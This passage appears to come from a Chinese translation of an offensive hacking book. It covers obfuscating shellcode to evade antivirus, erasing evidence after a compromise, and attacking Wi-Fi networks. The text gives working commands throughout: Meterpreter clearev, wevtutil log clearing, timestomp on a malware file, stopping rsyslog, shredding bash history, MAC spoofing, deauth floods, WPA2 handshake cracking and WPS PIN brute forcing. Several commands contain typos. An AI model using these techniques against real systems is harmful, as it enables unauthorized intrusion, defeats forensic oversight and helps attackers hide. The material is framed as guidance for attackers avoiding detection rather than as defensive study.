| Jiangmin | 未检测 | | | |

| K7GW | 未检测 | | | |

| Kingsoft | 未检测 | | | |

| McAfee-GW-Edition | 未检测 | | | |

如您所见，我们成功了！没有 AV 应用程序检测到我的混淆 shellcode！

# 总结

AV 应用程序会在目标系统上检测大多数恶意载荷和 shellcode。为了有机会保持未被检测，您需要重新编码和混淆您的 shellcode（您也可以编写自己独特的 shellcode。我将在未来的书中向您展示如何做到）。OWASP 项目的 `OWASP-ZSC` 是最好的 AV 规避工具之一。在这里，我们从 `shell-storm.org` 的 shellcode 数据库中获取了 shellcode，并通过一些创造性的编码和混淆，使其能够绕过主要的 AV 应用程序。

当然，由于我将我的 shellcode 发送到了 `VirusTotal`，它将被报告给所有主要的 AV 应用程序开发者，现在他们会检测到它（你们不客气！）。为了开发您自己的无法检测的载荷，您需要尝试不同的载荷、编码和混淆组合。要有创造力和坚持不懈——这是顶级黑客最重要的两个特质！

### 练习

- 下载并安装 `OWASP-ZSC`。
- 从 `shell-storm.org` 选择一个 shellcode。
- 混淆您的 shellcode。
- 编码您的 shellcode。
- 在 `scanii.com` 上测试您的 shellcode。
- 如果您知道目标的反病毒应用程序，现在用它测试您的 shellcode。
- 如果您的 shellcode 被检测到，重新开始并尝试不同的方法，直到您的 shellcode/载荷未被检测到。


# 14

### 掩盖您的踪迹

> *星星，隐藏你们的火焰；*
> *别让光亮看见我黑暗而深沉的欲望。*
> 
> —《麦克白》

**希望在这个行业中长久立足的黑客需要确保自己留下很少或没有证据痕迹。**

技术娴熟且警惕的数字取证调查员可以在许多地方找到证据。在本章中，我们将关注日志文件、文件时间戳和 bash 命令历史。如果黑客能够清理这三个区域的证据，追踪他们将非常困难。

```
meterpreter > clearev
[*] Wiping 371 records from Application...
[*] Wiping 1344 records from System...
[*] Wiping 355 records from Security...
```

现在您已利用了 Windows 7 系统（第 9 章）并获取了“战利品”，例如：(1) 密码哈希，(2) 麦克风录音，(3) 网络摄像头录音，(4) 目标系统输入的按键，然后 (5) 从目标系统跳板至整个网络。

在这个阶段，您需要确保没有留下任何证据将此次攻击追溯到您身上。

数字取证调查员主要依靠日志文件和时间戳来重建目标系统上的事件。这意味着您需要删除所有日志文件，或有选择性地删除记录您活动的特定日志文件。此外，如果您访问或修改了任何文件，这些文件的时间戳是篡改的明显证据。最后，如果您的系统落入错误的人手中，您的命令历史可能构成罪证。

让我们看看如何减少这些证据并掩盖您的踪迹！

### 使用 Meterpreter 掩盖您的踪迹

如果您能够将 Metasploit 的 `meterpreter` 植入目标系统，清除日志文件相对简单。大多数 Windows `meterpreter` 都内置了

该命令的别名为 `clearev`。此命令用于清除 Windows 系统的事件日志。

```
metpreter > clearev
```

在某些情况下，您可能无法在目标系统上获取 `metpreter`，或者 `clearev` 命令无法正常工作。在这种情况下，您可以使用 Windows 中的 `wevtutil` 实用工具。如果您正在使用 `metpreter`，首先需要进入目标 Windows 系统的命令 shell（`cmd`）（如果您没有 `metpreter`，而只有标准的 Windows 命令提示符，则可以跳过此步骤）。

您只需在 `metpreter` 提示符下输入 `shell` 即可实现。

```
metpreter> shell
```


```
C:\Users\OTW\Desktop>wevtutil
wevtutil
Command is not specified.
Windows Events Command Line Utility.

Enables you to retrieve information about event logs and publishers, install
and uninstall event manifests, run queries, and export, archive, and clear logs.

Usage:

You can use either the short (for example, ep /uni) or long (for example,
enum-publishers /unicode) version of the command and option names. Commands,
options and option values are not case-sensitive.

Variables are noted in all upper-case.

wevtutil COMMAND [ARGUMENT [ARGUMENT] ...] [/OPTION:VALUE [/OPTION:VALUE] ...]

Commands:

ei  | enum-logs         List log names.
gl  | get-log           Get log configuration information.
sl  | set-log           Modify configuration of a log.
ep  | enum-publishers   List event publishers.
gp  | get-publisher     Get publisher configuration information.
im  | install-manifest  Install event publishers and logs from manifest.
um  | uninstall-manifest Uninstall event publishers and logs from manifest.
qe  | query-events      Query events from a log or log file.
gli | get-log-info      Get log status information.
epl | export-log        Export a log.
at  | archive-log       Archive an exported log.
cl  | clear-log         Clear a log.

Common options:

/r | remote):VALUE
If specified, run the command on a remote computer. VALUE is the remote computer
name. Options /im and /um do not support remote operations.
```

```
C:\Users\OTW\Desktop>wevtutil cl security
wevtutil cl security

C:\Users\OTW\Desktop>
```

Windows 有一个鲜为人知的实用工具，名为 Windows 事件实用工具，简称 `wevtutil`。您可以从命令行访问它。若要清除事件日志，您需要具有系统管理员权限。

让我们首先简单地运行 `wevtutil` 来获取帮助界面。

`C:\Windows\System32> wevtutil` 如您所见，此实用工具具有许多选项，但要清除日志，我们只需运行 `wevtutil`，后跟 `cl`（clear，清除），然后是要删除的事件日志类别。因此，如果我们要清除“security”（安全）日志，只需输入：`C:\Windows\System32>wevtutil cl security` 此命令提示符会回显您的命令，然后返回一个新的命令提示符。要检查是否发生了任何变化，您可以转到 Windows 图形界面并打开“Computer Management”（计算机管理）控制台。


在那里，您可以单击 Windows 日志，然后单击 Security（安全）。如您所见，Security 日志目录中的所有日志都已被清除！

## Timestomp

在某些情况下，您的后渗透活动可能包括访问或修改文档、读取电子邮件以及其他文件访问。在这些所有情况下，您都会为经验丰富的调查人员留下证据。每个操作系统和文件系统都会为文件设置时间戳。这些时间戳包括最后修改、访问和创建（MAC）的日期和时间。它们是取证调查人员寻找入侵证据并重建事件时间线的标准工具。

- **M** 修改
- **A** 访问
- **C** 创建

这些时间戳可能是访问和修改文件的证据。彻底且技术娴熟的取证调查人员可以利用这些时间戳来重建系统上的事件，包括任何文件修改。为了掩盖您的踪迹，如果您“触碰”过任何文件，就需要修改这些时间戳。

幸运的是，修改时间戳并不难。如果您计划访问或修改任何文件，请首先记录原始时间戳。一旦您访问或修改了文件，就可以使用 meterpreter 中的一个实用工具将时间戳恢复为原始状态。它被称为 `timestomp`（注意它与时戳 `timestamp` 不同，多了一个“o”）。要了解其工作原理，请输入带有 `help` 选项的 `timestomp`。

```
meterpreter > timestomp help
```

```
meterpreter > timestomp help

Usage: timestomp <file(s)> OPTIONS

OPTIONS:
        -a <opt>  Set the "last accessed" time of the file
        -b        Set the MACE timestamps so that EnCase shows blanks
        -c <opt>  Set the "creation" time of the file
        -e <opt>  Set the "mft entry modified" time of the file
        -f <opt>  Set the MACE of attributes equal to the supplied file
        -h        Help banner
        -m <opt>  Set the "last written" time of the file
        -r        Set the MACE timestamps recursively on a directory
        -v        Display the UTC MACE values of the file
        -z <opt>  Set all four attributes (MACE) of the file
meterpreter >
```

```
meterpreter > timestomp malwarevnc.exe -z "06/25/2015 09:25:03"
[*] Setting specific MACE attributes on malwarevnc.exe
meterpreter > timestomp malwarevnc.exe -v
[*] Showing MACE attributes for malwarevnc.exe
Modified : 2015-06-25 10:25:03 -0600
Accessed : 2015-06-25 10:25:03 -0600
Created : 2015-06-25 10:25:03 -0600
Entry Modified: 2015-06-25 10:25:03 -0600
meterpreter >
```

假设系统上有一个名为“malwarevnc”的恶意软件。通常，此恶意软件用于在系统上为攻击者提供 VNC GUI。我们可以使用带有 `-z` 选项的 `timestomp` 并加上我们想要“覆盖”在文件上的日期和时间，来更改所有时间戳（MAC），例如：`meterpreter> timestomp malwarevnc.exe -z “06/25/25/2015 09:25:03”`

注意日期和时间必须用双引号括起来。如果我们只想修改 M 属性（修改时间），我们会使用相同的命令，但使用 `-m` 选项；如果我们只想修改 A 属性（访问时间），我们会使用 `-a` 选项；如果我们只想修改 C 属性（创建时间），我们会使用 `-c` 选项（这很容易记住）。通常，分别修改这些属性会更明智，从而避免给调查人员留下任何警示标志。在野外环境中，这些文件很少具有相同的时间戳。

## 在 Linux 系统上掩盖踪迹

在 Linux 系统上掩盖踪迹稍微复杂一些，因为 Linux 系统将其日志保存在许多不同的位置。每个应用程序维护自己的日志，内核和实用程序也维护各自独立的日志。大多数 Linux 系统都有一个名为 `rsyslog` 的实用工具，用于将所有日志发送到中央服务器。

为了管理您在目标系统上的足迹，您可以操纵此实用工具，在您在系统中时停止记录日志。

在 Linux 系统上掩盖踪迹最简单的方法可能是停止 `rsyslog` 服务。

`systemctl rsyslog stop` 这将停止 `rsyslog` 服务并禁用向日志服务器记录日志。当然，这会在日志中留下明显的时间空白，但很少有管理员会如此仔细地监控日志。在离开系统之前，最后要做的是重启 `rsyslog` 系统，使有人篡改日志的情况不那么明显。

`systemctl rsyslog start`

### 删除您的命令历史

最后，您可能需要确保如果您的计算机落入对手手中，您的命令历史不会留下痕迹。在这种情况下，您的 BASH 历史对于重建您的操作至关重要。

您至少有两种策略。首先，您可以阻止系统存储您的命令；第二种是从历史记录中删除命令。

您可以通过在提示符下输入命令 `history` 来查看您的命令历史。

`kali > history`

要关闭命令历史，您需要更改环境变量 `$HISTSIZE` 的值。您可以通过将 `HISTSIZE` 变量设置为零（不存储任何命令）并导出该变量来实现（关于 Linux 中环境变量的更多信息，请参阅 *Linux Basics for Hackers*）。

`kali > HISTSIZE=0`

`kali > echo $HISTSIZE`

```
root@kali-2019:~# HISTSIZE=0
root@kali-2019:~# echo $HISTSIZE
0
root@kali-2019:~#
```

```bash
root@kali-2019:~# history -d 3
root@kali-2019:~# history
 1  nmap -sT 75.75.75.75
 2  msfconsole
 3  webcam -l
 4  webcam_record
 5  history
 6  history -d 3
 7  history
root@kali-2019:~# history -c
root@kali-2019:~# history
 1  history
```

现在，你的 BASH shell 将不会存储你的**任何**命令。这可能会带来一点不便，因为现在你无法使用上箭头或下箭头键来滚动查看之前的命令。

一个更好的解决方案可能是从历史记录中删除单独的命令。你可以使用带有 `-d` 选项的 `history` 命令后跟命令编号来删除历史记录中的任何命令。因此，如果你想删除历史记录中的第 3 个命令（`.keylog_start`），请输入：`kali >history -d -3`

如果你想删除所有命令历史，可以使用 `history` 命令后跟 `-c` 开关。

`kali > history -c`

现在，当你输入 `history` 命令时，只会显示你最后一条命令。

这足以确保没有人能恢复你的命令历史，但请记住，删除文件并不意味着它们无法恢复。当文件被删除时，它们会被文件系统设计为可被覆盖的状态。在这些文件被覆盖之前，它们是完全可恢复的（有关此主题的更多信息，请参见 https://www.hackers-arise.com/recovery-of-deleted-files）。在某些情况下，即使被覆盖后，熟练的法证调查人员仍可能恢复这些数据。

`shred` 命令会用随机数据多次覆盖目标文件，使其内容或命令历史几乎不可能被恢复。

让我们看看 `shred` 的帮助屏幕。


```bash
root@kali-2019:~# shred --help
Usage: shred [OPTION]... FILE...
Overwrite the specified FILE(s) repeatedly, in order to make it harder
for even very expensive hardware probing to recover the data.

If FILE is -, shred standard output.

Mandatory arguments to long options are mandatory for short options too.
  -f, --force    change permissions to allow writing if necessary
  -n, --iterations=N  overwrite N times instead of the default (3)
  -random-source=FILE  get random bytes from FILE
  -s, --size=N   shred this many bytes (suffixes like K, M, G accepted)
  -u    deallocate and remove file after overwriting
  --remove[=HOW]  like -u but give control on HOW to delete; See below
  -v, --verbose  show progress
  -x, --exact   do not round file sizes up to the next full block;
                this is the default for non-regular files
  -z, --zero    add a final overwrite with zeros to hide shredding
  --help display this help and exit
      --version  output version information and exit
```

```bash
root@kali-2019:~# shred -f .bash_history
root@kali-2019:~# cat .bash_history
```

`kali > shred -h`

如上所示，用户的命令历史可以使用 `history` 命令查看，但实际上命令历史存储在名为 `.bash_history` 的用户配置文件中。我们可以通过使用命令 `kali > shred -f .bash_history` 来粉碎该文件。现在，当我们返回并查看 `.bash_history` 时，我们会发现里面没有任何可读的内容！

`Kali > cat .bash_history`

## 摘要

在攻陷系统或网络后，黑客必须确保不留或少留证据。一名技能娴熟且尽职的数字取证调查人员可以重建事件并确定系统中发生了什么。为了保持隐蔽，黑客/渗透测试人员必须确保清除其活动的所有证据。最重要的是，这包括删除任何日志文件或命令历史文件。

## 练习

- 1. 使用 `clearev` 命令从 meterpreter 清除被攻陷 Windows 系统的事件日志。
- 2. 使用 `wevtutil` 在 Windows 系统上有选择地删除日志文件。
- 3. 在 Linux 系统上停止 `rsyslog` 服务以禁用日志记录。
- 4. 使用 `history` 命令删除所有命令。
- 5. 粉碎你的历史文件以删除所有 BASH 命令的证据。


# 15

## Wi-Fi 黑客攻击

*混沌中永远存在机会*

*OTW 大师*

在我们现代数字时代，无线连接是常态。我们通过 Wi-Fi 连接互联网，通过蓝牙连接扬声器和电话，并通过蜂窝服务连接手机。

它们都是无线的，且都有可能被黑客攻击。这些黑客攻击领域的每一个都足以单独写一本书，但在这章中，我将重点关注一些对 Wi-Fi 最有效、最新和最佳的攻击技术（有关蓝牙黑客攻击，请参见 www.hackers-arise.com/hacking-bluetooth；有关蜂窝网络黑客攻击，请参见 OTW 的移动黑客攻击课程）。

在本章中，我们将探索这些无线技术可以被攻击和破坏的多种方法。这包括获取密码（PSK）和对 Wi-Fi 流量进行窃听。这些技术需要一些复杂的 Linux 和 Kali 技能（参见《黑客 Linux 基础》）以及耐心，但如果你具备这两个要素，你应该能够成功破解几乎任何 Wi-Fi AP！

让我们从 Wi-Fi 或 802.11 开始，这是 IEEE 对它的称呼。我们都知道如何使用 Wi-Fi，但我们中很少有人了解其内部工作原理。了解其结构的一些知识将有助于我们攻击它。

### Wi-Fi 或 802.11

Wi-Fi 有时也被称为“无线局域网”或 WLAN，这基本上概括了这项技术的内容。从技术术语上讲，Wi-Fi（或无线网络）被称为 IEEE 802.11 技术。不深入细节，IEEE 802.11 是由电气和电子工程师协会（IEEE）制定和维护的一组标准，用于在特定频段中实现 WLAN 通信。

最初，Wi-Fi 使用有线等效隐私（WEP）进行保护。事实证明这存在缺陷且容易被破解，因此行业开发了 WPA 作为短期解决方案。最终，行业实施了 WPA2，它在抵抗攻击方面表现得相对坚韧，但也有其缺陷。由于 WPA2 中的这些漏洞，行业目前正在推出 WPA3。

### 术语

本章包含许多新的术语和缩写，因此让我们暂停片刻，回顾一下这些术语。

**AP**

这是接入点，即客户端连接到 Wi-Fi 并获取互联网访问权限的地方。

**PSK - 预共享密钥：**

这是用于身份验证到 AP 的密码。

**SSID -**

用于标识 AP 的名称。

**ESSID -**

扩展服务集标识符：与 SSID 相同，但可用于无线局域网中的多个 AP。

**BSSID -**

基本服务集标识符：这是每个 AP 的唯一标识符。它与 AP 的 MAC 地址相同。

**信道 -**

Wi-Fi 在 1-14 信道上运行，但在美国仅限于 1-11 信道。

**功率 -**

你离 AP 越近，信号越强。在美国，FCC 将信号限制在 0.5 瓦以内。

**安全性 -**

这是用于身份验证和加密 Wi-Fi 流量的安全协议。目前最流行的是 WPA-PSK。

**模式 -**

Wi-Fi 可以以三种模式运行：主模式、管理模式和监听模式。AP 以主模式运行，无线网络接口默认以监听模式运行，而黑客通常以监听模式运行。

**范围 -**

在 0.5 瓦的合法限制下，大多数 Wi-Fi AP 在 300 英尺（100 米）范围内可访问，但使用高增益天线时，可达 20 英里。

**频率 -**

Wi-Fi 设计为在 2.4GHz 和 5GHz 下运行。大多数现代系统现在都使用两者。

### 802.11 安全协议

有多种保护 Wi-Fi 的安全协议，你的策略将取决于实施的是哪一种。

**WEP**

用于保护 802.11 的初始安全协议被称为 WEP 或有线等效隐私。到 2001 年，黑客发现——通过统计技术——由于 RC4 加密实现不当，他们可以在几分钟内破解用户的密码。IEEE 必须迅速找到替代方案，因为当时所有的 Wi-Fi AP 都处于无安全保护状态。如今仍有少数这些接入点在使用（尽管你会发现一些）。

**WPA**

2003 年，IEEE 创建了一个临时解决方案，称为 Wi-Fi 保护访问，即 WPA。这个新安全协议的关键部分在于它不需要更换现有硬件，而是依赖于固件升级。WPA 还依赖于 RC4 加密算法，但增加了一些额外的功能使得破解PSK更加困难且耗时。

这些功能包括：

- 将初始化向量从48位延长至128位
- TKIP为每个客户端生成不同的密钥
- 消息完整性检查（MIC），以确保消息在传输过程中未被篡改

## WPA2

WPA2 802.11i标准于2004年6月最终确定。WPA2使用计数器模式配合分组链接消息认证协议（Cipher Block Chaining Message Authentication Protocol），通常称为CCMP。这种新协议基于高级加密标准（AES，有关密码学的更多信息请参见附录A）算法进行身份验证和加密。CCMP对处理器的要求更高，因此大多数接入点（AP）不得不更换为性能更强的硬件。


WPA2支持个人模式和企业模式。当使用个人模式（PSK）时，预共享密钥（密码）与SSID结合，生成对等主密钥（Pairwise Master Key, PMK）。这一设计旨在使彩虹表密码破解变得更加困难。客户端与AP使用PMK交换消息，以创建对等瞬态密钥（Pairwise Transient Key, PTK）。该密钥对每个用户和会话都是唯一的，其设计目的是使嗅探Wi-Fi流量变得更加困难。

## 用于黑客攻击的Wi-Fi适配器

尽管几乎每个人的笔记本电脑或移动设备上都装有Wi-Fi适配器，但这些Wi-Fi适配器通常不足以支持本文所述的攻击。Wi-Fi黑客攻击需要专用的Wi-Fi适配器，其功能须支持向无线AP注入帧。市面上很少有现成的Wi-Fi适配器能做到这一点。

`Aircrack-ng`是Wi-Fi黑客攻击中最广泛使用的工具（许多工具只是在`aircrack-ng`之上添加了一个图形界面），`aircrack-ng`在其软件页面 https://www.aircrack-ng.org/doku.php?id=compatible_cards 上维护了一份兼容的Wi-Fi芯片组列表。我可以为你节省大量时间和研究精力，直接推荐Alfa Wi-Fi卡。我多年来一直在使用它们，它们运行得非常完美。它们价格便宜、有效且高效。本章中将使用Alfa `AWUS036NH`。你可以在亚马逊上订购一款自带高增益天线（非必需，但推荐）的Alfa `AWUS036NH`，价格不到$40（https://amzn.to/2PvC1u0）。

在开始攻击Wi-Fi之前，让我们回顾一下攻击它们所需的一些命令和概念。

### 查看无线接口

首先，我们需要查看无线接口。你只需在Linux中使用 `ifconfig` 命令即可完成。该命令会显示所有网络接口。

```
root@kali-2019:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
    inet 192.168.0.243  netmask 255.255.255.0  broadcast 192.168.0.255
    inet6 fe80::20c:29ff:fe99:c941  prefixlen 64  scopeid 0x20<link>
    ether 00:0c:29:99:c9:41  txqueuelen 1000  (Ethernet)
    RX packets 15223  bytes 169329733 (161.4 MiB)
    RX errors 0  dropped 0  overruns 0  frame 0
    TX packets 15254  bytes 1096263 (1.0 MiB)
    TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
lo: flags=73<UP,LOOPBACK,RUNNING> mtu 65536
    inet 127.0.0.1  netmask 255.0.0.0
    inet6 ::1  prefixlen 128  scopeid 0x10<host>
    loop  txqueuelen 1000  (Local Loopback)
    RX packets 2065  bytes 5031595 (4.7 MiB)
    RX errors 0  dropped 0  overruns 0  frame 0
    TX packets 2065  bytes 5031595 (4.7 MiB)
    TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
wlan0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
    ether 00:c0:ca:3f:ee:02  txqueuelen 1000  (Ethernet)
    RX packets 0  bytes 0 (0.0 B)
    RX errors 0  dropped 0  overruns 0  frame 0
    TX packets 0  bytes 0 (0.0 B)
    TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

为了更具体地仅查看无线接口，可以使用 `iwconfig` 命令。

```
root@kali-2019:~# iwconfig
lo    no wireless extensions.
eth0    no wireless extensions.
wlan0  IEEE 802.11  ESSID:Off/any
        Mode:Managed  Access Point: Not-Associated  Tx-Power=20 dBm
        Retry short limit:7  RTS thr:off   Fragment thr:off
        Encryption key:off
        Power Management:off
```

如你所见，此命令仅显示具有“无线扩展”的接口。

要查看无线网卡范围内所有Wi-Fi AP，可以在Linux中输入 `iwlist`。

```
root@kali-2019:~# iwlist wlan0 scan
wlan0       Scan completed :
        Cell 01 -  Address: MAC Address or BSSID
                  Channel:6
                  Frequency:2.437 GHz (Channel 6)
                  Quality=70/70  Signal level=-19 dBm
                  Encryption key:off
                  ESSID:"xfinitywifi"
                  Bit Rates:1 Mb/s;  2 Mb/s;  5.5 Mb/s;  11 Mb/s;  6 Mb/s
                           9 Mb/s;  12 Mb/s;  18 Mb/s
                  Bit Rates:24 Mb/s;  36 Mb/s;  48 Mb/s;  54 Mb/s
                  Mode:Master
                  Extra:tsf=0000000447154beb
                  Extra: Last beacon:  2420ms ago
```

此命令能够检测范围内的所有AP，并提供每个AP的关键信息，包括：

- 其MAC地址
- 其信道
- 频率
- ESSID
- 其模式

## 监听模式

说到Wi-Fi模式，Wi-Fi或802.11有三种模式：主模式（master）、管理模式（managed）和监听模式（monitor）。监听模式类似于有线网络中的混杂模式（promiscuous mode），在这种模式下，网络设备能够捕获经过它的所有数据包。通常在Wi-Fi黑客攻击中，你需要将无线网卡设置为监听模式。为此，请输入：

```
kali > airmon-ng start wlan0
```

输入此命令后，它会将其无线接口置于监听模式并更改其名称。这里可以看到它已被更改为 `wlan0mon`。

另外，请注意它警告称三个进程可能会引起麻烦。尽管有此警告，通常这不会造成问题。如果确实引起了问题，请输入：

```
kali > airmon-ng check kill
```

## 捕获帧

接下来，当我们的无线网卡处于监听模式并能看到周围所有流量时，我们需要开始捕获这些数据。我们可以使用`aircrack-ng`套件中的 `airodump-ng` 命令来完成：

```
kali > airodump-ng wlan0mon
```

现在，我们可以看到屏幕上半部分显示所有AP及其关键信息，下半部分显示客户端。攻击这些AP和客户端所需的所有信息都在此处！

## 攻击Wi-Fi AP

### 隐藏SSID

大多数安全工程师被教导要“隐藏”他们的SSID。信标帧和探测请求包含接入点的SSID。此外，通常如果你拥有AP的BSSID（MAC地址），就不需要SSID即可连接到AP。由于这些信息是通过无线电波广播的，黑客只需使用诸如 `airodump-ng` 或其他工具即可查看BSSID，如上文所示。

### 击败MAC过滤

同样，网络安全工程师被教导使用MAC过滤来限制谁可以访问他们的Wi-Fi AP。该技术通过MAC地址（每个设备的全局唯一标识符）来限制谁能访问AP（该设备的全局唯一


网络接口）。安全工程师会将所有合法用户及其系统的 MAC 地址放入接入点（AP）的管理员界面中。这意味着只有这些 MAC 地址被允许连接，AP 会拒绝其他所有设备。遗憾的是，这种技术在面对一些简单的方法时会彻底失效。

攻击者可以使用 `airodump-ng` 来查找已与该 AP 认证的客户端的 MAC 地址。

```bash
kali > airodump-ng -c 11 -a -bssid <mac>
```

一旦攻击者知道了已认证客户端的 MAC 地址，他们就可以简单地“伪装”该 MAC 地址。这要求我们先禁用该接口：

```bash
kali> ifconfig wlan0 down
```

然后，使用 `macchanger` 伪装 MAC 地址，使其与已连接客户端的 MAC 地址相同。

```bash
kali > macchanger -m <mac> wlan0
```

现在，重新启用该接口，它将拥有与允许连接到 AP 的某个系统相同的 MAC 地址。简单！

```bash
kali > ifconfig wlan0 up
```


一旦攻击者的 MAC 地址与 MAC 过滤白名单中的某个地址匹配，他们就可以不受干扰地连接到 AP。

## 攻击 WPA2-PSK

WPA2-PSK 是 Wi-Fi 路由器中应用最广泛的安全协议。虽然 WPA3 刚刚发布，但尚未广泛部署。因此，让我们关注 WPA2 的破解方法。

与早期的一些 Wi-Fi 黑客技术（例如使用统计技术在几分钟内破解 WEP 密码）不同，针对 WPA2 的策略与第 8 章中介绍的密码破解技术类似。对于 WPA2-PSK，我们首先捕获密码的哈希值，然后使用诸如 `hashcat` 等哈希破解程序应用字典库以找到匹配项。

关键在于捕获在空中传输的密码哈希值。WPA2-PSK 具有一种称为四次握手的机制，密码哈希值在客户端和 AP 之间通过空中进行传输。我们可以在此处捕获它，然后应用我们熟悉的密码哈希破解技术和资源。

```text
CH 10 ] [ Elapsed: 0 s ] [ 2019-11-01 09:26

BSSID  PWR  Beacons  #Data, #/s  CH  MB  ENC  CIPHER  AUTH  ESSID
MAC Addresses of AP' s  -55 2 0 0 11 58 WPA2 CCMP PSK HP-Print-E3-Deskje
-1 0 0 1 -1 <length: 0>
-63 2 0 0 1 130 WPA2 CCMP PSK TPTv1
-66 2 0 0 1 130 WPA2 CCMP WGT <length: 0>
-77 2 0 0 1 195 WPA2 CCMP PSK CenturyLink6236
-78 6 0 0 10 54e WEP WEP APUH1

BSSID  STATION  PWR  Rate  Lost  Frames  Probe
F2:A3:A7:5B:63:29 00:1E:8F:8D:18:25 -16 0 - 1 42 13 Mandela2
(not associated) 52:CC:23:F6:58:E2 -78 0 - 1 0 1
```

```bash
root@kali-2019:~# airodump-ng --bssid aa:bb:cc:dd:ee:ff -c 11 --write HackersAriseCrack wlan0mon
```

第一步是将我们的无线网卡置于监控模式。

```bash
kali > airodump-ng start wlan0
```

然后我们启动 `airodump-ng` 以收集信息和数据包。

```bash
kali > airodump-ng wlan0mon
```

我们可能希望将数据包捕获集中在单个信道上的单个 AP 上。我们可以通过输入以下命令来实现：

```bash
kali > airodump-ng -bssid <目标 AP 的 BSSID> -c <AP 正在传输的信道> --write <保存哈希值的文件名> wlan0mon
```

如果你像我一样缺乏耐心，你可以踢掉一个已经连接到 AP 的客户端，当它重新连接时，你可以使用 `aireplay-ng` 捕获其握手，例如：

```bash
kali > aireplay-ng -deauth 100 -a AA:BB:CC:DD:EE:FF wlan0mon
```


其中：

- `aireplay-ng` 是命令

- `--deauth 100` 是向 AP 发送 100 个去认证帧的选项

- `-a <BSSID>` 是目标 AP 的 BSSID

- `wlan0mon` 是处于监控模式的 Wi-Fi 适配器

现在，当客户端重新向 AP 认证时，`airodump-ng` 会自动检测四次握手，将其捕获并写入你指定的文件（`HackersAriseCrack`）。

当我们在当前工作目录执行长列表时，我们会发现 `airodump-ng` 创建了五个文件。第一个文件 `Hackers-AriseCrack-1.cap` 包含用于破解的哈希值。

既然你拥有了握手数据，你只需使用诸如 `hashcat` 等哈希破解程序对密码进行暴力破解。承认吧，这可能是一个缓慢且繁琐的过程，使得选择一个好的字典库至关重要。

```bash
kali > hashcat -m 16800 HackersAriseCrack-01.cap /root/top10000passwords.txt
```

如果一开始不成功，请回到第 8 章，使用 `ceWL`、`cup`、`crunch` 或所有三者为目标创建一个自定义字典库。使用这个新的自定义字典库，再次尝试使用 `hashcat` 破解哈希值。

### WPS

许多购买和使用 Wi-Fi AP 的人技术能力有限。对他们来说，设置 Wi-Fi AP 是一项艰巨的任务。为了解决这种情况，行业开发了一种技术，使设置 Wi-Fi AP 变得像按下一个按钮一样简单！这可能出了什么问题？

这项新技术被称为 Wi-Fi Protected Setup 或 WPS。它允许用户只需按下 AP 上的按钮即可设置其 Wi-Fi 接入点。该系统依赖于在 AP 和客户端之间传输 PIN 码以启动其“安全”连接。

该 PIN 码仅使用 0-9 的数字（无特殊字符或字母字符）。PIN 码长度为八位字符（所有字符均为数字），第八位是校验位。更糟糕的是，在剩下的七个字符中，前四个字符进行校验，后三个字符单独进行校验。这意味着可能性数量为 $10^4$（10,000） + $10^3$（1000） = 11,000 个可能的 PIN 码！对于如此少量的 PIN 码，我们的计算机可以在几个小时内测试每一个。

尽管这一漏洞在 2012 年 WPS 2.0 开发中得到缓解，但仍有许多 AP 使用 WPS 1.0 并易受此攻击（我估计约为 10-20%）。要破解 WPS PIN 码，你需要以下信息：

1. 你的接口名称（通常是 `wlan0mon`）

2. AP 的 MAC 地址

3. AP 的 ESSID

4. AP 正在广播的信道

我们可以从 `airodump-ng` 屏幕收集到所有这些信息。

```text
CH 10 ] [ Elapsed: 0 s ] [ 2019-11-01 09:26

BSSID  #2  PWR  Beacons  #Data, #/s  #4
                                         CH  MB  ENC  CIPHER  AUTH  ESSID
MAC Addresses of AP's
-55 2 0 0 11 58 WPA2 CCMP PSK HP-Print-E3-Deskje
-63 0 0 0 -1 -1 <length: 0>
-66 2 0 0 1 130 WPA2 CCMP PSK TPTVI
-77 2 0 0 1 139 WPA2 CCMP PSK MGT <length: 0>
-78 6 0 0 1 195 WPA2 CCMP PSK CenturyLink6236
0 10 54e WEP APHU1

BSSID  STATION  PWR  Rate  Lost  Frames  Probe
F2:A3:A7:5B:63:29 00:1E:8F:8D:18:25 -16 0 - 1 42 13 Mandela2
(not associated) 52:CC:23:F6:58:E2 -78 0 - 1 0 1
```


```
root@kali-2019:~$ wash -i wlan0mon

BSSID Ch dBm WPS Lck Vendor ESSID
----------------- --- --- --- ---- -------------------------
MAC Addresses
1 -71 2.0 No Quantenn Clickhereforavirux5
1 -73 2.0 No Broadcom MOTO9818
6 -75 2.0 No Broadcom CenturyLink9930
6 -73 2.0 No AtherosC vsimps01
6 -03 2.0 No AtherosC HOME-15EB-2.4
6 -71 2.0 No AtherosC PREB-NET-2.4
6 -77 2.0 No AtherosC HOME-FF2B-2.4
6 -75 2.0 No Broadcom CenturyLink6236
7 -67 2.0 No Broadcom NETGEAR03
11 -51 2.0 No Broadcom CenturyLink8327
8 -77 2.0 No AtherosC Lasson
11 -65 2.0 No Quantenn GuinnessJager
11 -65 1.0 No NITGR_VMB_1462061001
11 -75 2.0 No Broadcom MOTOROLA-710EB
11 -79 2.0 No Broadcom CenturyLink2925
11 -13 2.0 No AtherosC Mandela
```

要查找支持 WPS 的 AP，可以运行 `wash` 命令，后跟你的接口名称 `wlan0mon`。

```
kali > wash -i wlan0mon
```

正如上文所示，在我办公室附近有许多可用的 AP，其中有一个 `NTGR_VMB_1462061001` 仍然在使用 WPS 1.0。

现在，结合 `wash` 和 `airmon-ng`（注：原文误写为 `airodump-ng`，根据上下文语境及后文工具链，此处应为 monitor mode 相关工具，但原文提及的是 `wash` 和 `airodump-ng` 的信息，这里按原文翻译）提供的信息，我们可以使用 `bully` 或 `reaver` 对 PIN 进行暴力破解。

（注：原文中提到的 `airodump-ng` 在此处语境下通常用于监听信道和获取 BSSID/SSID，而 `wash` 用于扫描 WPS 状态。原文表述为“with the information from `wash` and `airodump-ng`”，故翻译保留原文意图。）

要使用 `bully`，请输入：

```
kali > bully wlan0mon -b 00:11:22:33:44:55 -e NTGR_VMB_1462061001 -c 11
```

要使用 `reaver`，请输入：

```
Kali > reaver -i wlan0mon -b 00:11:22:33:44:55 -vv
```

请务必确保将 MAC 地址、目标 AP 的实际 SSID 以及 AP 正在广播的实际信道替换为对应的实际值。

## 邪恶双子攻击（MiTM）

